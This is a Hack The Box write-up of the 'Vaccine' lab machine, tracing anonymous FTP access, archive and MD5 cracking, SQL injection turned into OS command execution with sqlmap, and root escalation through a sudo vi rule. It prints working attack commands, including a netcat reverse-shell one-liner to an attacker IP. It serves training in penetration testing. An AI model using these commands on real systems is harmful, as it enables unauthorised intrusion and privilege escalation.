

# CTF Writeup — Vaccine

## 📌 Overview

* Platform: Hack The Box
* Difficulty: Very Easy
* Objective: Full compromise (User flag / Root flag)

Vaccine is a Linux target exposing FTP, SSH, and HTTP. The attack path begins with anonymous FTP access to a password-protected backup archive, which is cracked to reveal PHP source code for a login portal. The recovered credentials grant access to an internal dashboard vulnerable to SQL injection, which is leveraged via `sqlmap`'s `--os-shell` to obtain remote code execution. Post-exploitation credential harvesting and a permissive `sudo` rule on `vi` are then used to escalate to root.

---

## 🔍 Enumeration

### 1. Initial Reconnaissance

An initial port scan was performed to identify open services and running versions.

```bash
rustscan -a 10.129.202.242 -- -A
```

**Results:**

```
Open 10.129.202.242:21   (FTP)
Open 10.129.202.242:22   (SSH)
Open 10.129.202.242:80   (HTTP)
```

Three services were exposed: FTP, SSH, and HTTP. FTP was investigated first, as anonymous authentication is a common misconfiguration worth testing early.

---

### 2. FTP Enumeration — Anonymous Access

Anonymous login was attempted against the FTP service and succeeded.

```bash
ftp 10.129.202.242
Name (10.129.202.242:x): anonymous
Password:
230 Login successful.
```

A directory listing revealed a single file of interest, which was downloaded for offline analysis.

```bash
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
```

### 3. Cracking the Archive

The archive was protected by a password. `fcrackzip` was used with the `rockyou.txt` wordlist to recover it.

```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' backup.zip

PASSWORD FOUND!!!!: pw == 741852963
```

Extracting the archive with this password revealed `index.php` and `style.css` — the source code of the target's login page.

### 4. Source Code Analysis

Reviewing `index.php` revealed hardcoded authentication logic comparing a submitted username/password against a static username and an MD5 password hash:

```php
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
  $_SESSION['login'] = "true";
  header("Location: dashboard.php");
}
```

This confirmed the username as `admin` and exposed the MD5 hash of the password for offline cracking.

### 5. Cracking the Password Hash

The hash `2cb42f8734ea607eefed3b70af13bbd3` was submitted to an online hash-cracking service and resolved successfully:

```
Hash: 2cb42f8734ea607eefed3b70af13bbd3
Type: md5
Result: qwerty789
```

This yielded a valid credential pair:

```
admin:qwerty789
```

### 6. Authenticated Access to the Web Application

The target's root HTTP page served the same login form found in the backup archive. Authenticating with `admin:qwerty789` succeeded and redirected to `dashboard.php`, an "Admin Dashboard" displaying a car catalogue with a search feature (`GET` parameter `search`).

---

## 💥 Exploitation

### 1. Testing the Search Parameter

The `search` parameter was tested for common web vulnerabilities.

**Local File Inclusion (LFI):**

```bash
http://10.129.202.242/dashboard.php?search=../../../etc/passwd
```

A directed fuzzing pass was also performed using `ffuf`, filtering out the baseline response size (931 bytes) observed across all requests:

```bash
ffuf -u 'http://10.129.202.242/dashboard.php?search=FUZZ' \
  -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 931
```

No LFI was identified through either method.

**SQL Injection:**

Submitting a single quote (`'`) in the `search` parameter returned a database error, confirming the parameter was unsanitized and passed directly into a SQL query:

```
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```

### 2. Automating Exploitation with sqlmap

An initial `sqlmap` run against the parameter failed to detect injection:

```bash
sqlmap -u 'http://10.129.202.242/dashboard.php?search=test' -p search
[CRITICAL] all tested parameters do not appear to be injectable.
```

The application required a valid session cookie, which `sqlmap` flagged when it attempted to set its own `PHPSESSID`. The authenticated session cookie was extracted from the browser (DevTools → Application → Cookies) and supplied explicitly:

```bash
sqlmap -u 'http://10.129.202.242/dashboard.php?search=test' -p search \
  --cookie="PHPSESSID=dmo7le8m0v9gii9ffbom2derrh"
```

With the valid cookie, injection was confirmed. `sqlmap`'s `--os-shell` feature was then used to escalate the SQL injection into an interactive operating system shell:

```bash
sqlmap -u 'http://10.129.202.242/dashboard.php?search=test' -p search \
  --cookie="PHPSESSID=dmo7le8m0v9gii9ffbom2derrh" --os-shell
```

This provided command execution on the underlying PostgreSQL host. A reverse shell was then established for a more stable interactive session:

```bash
# Listener
nc -lvnp 4444

# Triggered from os-shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.77 4444 >/tmp/f
```

The resulting shell confirmed execution as the `postgres` user:

```bash
$ whoami
postgres
$ pwd
/var/lib/postgresql/11/main
```

---

## 🔓 Privilege Escalation

### 1. User Flag

Enumerating `/home` revealed two additional users, `simon` and `ftpuser`. Neither directory contained readable files of value. Searching the filesystem for the flag located and retrieved it directly:

```bash
$ find / -name "user.txt" 2>/dev/null
/var/lib/postgresql/user.txt
$ cat /var/lib/postgresql/user.txt
<user_flag>
```

The shell was upgraded to a fully interactive TTY for further enumeration:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
```

### 2. Local Enumeration

SUID binaries were enumerated manually:

```bash
find / -perm -4000 2>/dev/null
```

This returned only standard system binaries, with no immediately exploitable SUID target. Attention shifted to credential reuse within the web application's source.

### 3. Credential Discovery

The web root was reviewed for hardcoded credentials:

```bash
cd /var/www/html
grep -i -R "pass" *
```

This revealed the PostgreSQL database credentials embedded in `dashboard.php`:

```
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

### 4. Identified Vector — Sudo Misconfiguration

The recovered password was tested against `sudo -l` for the current (`postgres`) user:

```bash
sudo -l
[sudo] password for postgres: P@s5w0rd!

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

The `postgres` user was permitted to run `vi` as root against a specific configuration file with no restrictions on in-editor commands — a well-known privilege escalation vector documented on GTFOBins for `vi`/`vim`, since the editor can spawn an interactive shell that inherits the elevated privileges.

### 5. Root Flag

`vi` was launched via `sudo` and used to spawn a root shell:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:set shell=/bin/bash
:shell
```

```bash
# whoami
root
# cat /root/root.txt
<root_flag>
```

---

## Attack Flow



---

## 🧠 Lessons Learned

* **Anonymous FTP access remains a real risk.** A single misconfigured anonymous FTP account exposed a backup archive containing full application source code, which cascaded into the entire attack chain.
* **Backup files are high-value targets.** Archives left on production or FTP shares often contain source code, credentials, or configuration data that should never be exposed externally.
* **Client-visible source code review is essential.** Recovering `index.php` immediately revealed the authentication logic and a crackable password hash — a reminder that hardcoded credentials and weak hashing (MD5) are still common failure points.
* **Session context matters for automated tools.** `sqlmap` failed to detect the injection until the authenticated `PHPSESSID` cookie was supplied — a good reminder to always test authenticated endpoints with the correct session state.
* **`--os-shell` is a powerful escalation path from SQL injection.** When the backend database user has file-write and command execution privileges, SQL injection can be escalated directly to OS-level code execution.
* **Credential reuse across services is a recurring theme.** The PostgreSQL password found in application source was reused for the `postgres` system account, enabling `sudo` enumeration.
* **Overly permissive `sudo` rules on interactive programs (vi, vim, less, more, etc.) are a critical misconfiguration.** GTFOBins should always be checked against any binary a user is permitted to run via `sudo`.
* **Real-world relevance:** this chain mirrors common findings in production environments — exposed backups, hardcoded database credentials in source, and unrestricted `sudo` rules on text editors are frequently observed in internal penetration tests.

---

## 🧩 Tools Used

* RustScan
* FTP (anonymous access)
* fcrackzip
* Online MD5 hash cracker
* ffuf
* sqlmap
* Netcat
* GTFOBins (vi privilege escalation reference)

---

## ⚠️ Notes

* Flags are intentionally omitted
* This writeup focuses on methodology and learning

---

## Editor's Notes

The following items are flagged for your review before publishing:

- **Machine name assumed as "Vaccine"** based on the `postgres@vaccine` shell prompt and the overall attack chain (this is a known HTB machine). Please confirm this is correct.
- **Difficulty level** was not stated in the notes; it was inferred as "Very Easy" from a fragment at the top of the raw notes (`- **Very Easy** - **Linux**`). Confirm this matches the actual HTB difficulty rating.
- **Target IP** (`10.129.202.242`) and attacker IP (`10.10.14.77`) are included as they appeared in the raw notes — standard practice is to keep these since they're non-sensitive lab IPs, but flag if you'd prefer to redact them.
- **SSH port (22)** was identified in the initial scan but never explored further in the notes — this is noted as unused in the writeup; confirm no SSH-based steps were omitted.
- **Full raw Nmap/Rustscan service/version output** wasn't included in the notes beyond the open port list — if you have the full `-A` output (service banners, versions), it would strengthen the Enumeration section.
- The **online MD5 cracking service** used to crack the password hash wasn't named in the notes (e.g., CrackStation) — confirm which tool/site was used so it can be named explicitly in the Tools Used section.
- The **directory traversal / LFI attempt** was included as it reflects part of your genuine testing methodology (per your preference to show iterative thinking); let me know if you'd rather trim this as exploratory noise.
- No **SUID/cron/LinPEAS automated enumeration output** was present in the notes — manual `find -perm -4000` was used instead; confirmed as accurate but flagging in case a LinPEAS run was performed and simply not pasted in.
